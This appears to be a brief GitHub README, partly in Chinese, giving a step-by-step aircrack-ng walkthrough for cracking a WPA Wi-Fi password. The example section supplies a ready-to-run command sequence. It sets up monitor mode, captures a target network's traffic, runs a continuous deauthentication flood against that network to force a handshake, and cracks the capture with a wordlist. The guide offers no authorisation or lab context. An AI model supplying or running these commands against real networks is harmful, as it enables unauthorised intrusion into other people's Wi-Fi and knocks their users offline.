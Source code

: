 # Aircrack-ng-Guide
A sample use guide for aircrack-ng in linux

### Step
1. 查看网卡列表: iwconfig
2. 启用用来破解的网卡: airmon-ng start <网卡名>
3. 重新查看网卡列表，指定网卡启用后网卡名会变: iwconfig
4. 查看 wifi 列表: airodump-ng <网卡名>
5. 抓取目标 wifi 的网络包并存储: airodump-ng -c <channel> --bssid <wifi 破解目标的bssid> -w <文件名> <网卡名>
6. 获取握手包，直到出现 WPA handshake: aireplay-ng -0 0 -a <bssid> <网卡名>
7. 利用字典破解 .cap 数据包: aircrack-ng -w <字典名> -b <bssid> 文件名*.cap

### Example
<pre><code>iwconfig
airmon-ng start wlp0s20u1
iwconfig
airodump-ng wlp0s20u1mon
airodump-ng -c 6 --bssid C0:61:18:29:9D:28 -w wifiname wlp0s20u1mon
aireplay-ng -0 0 -a C0:61:18:29:9D:28 wlp0s20u1mon
aircrack-ng -w wordlist.txt -b C0:61:18:29:9D:28 wifiname*.cap
</code></pre>
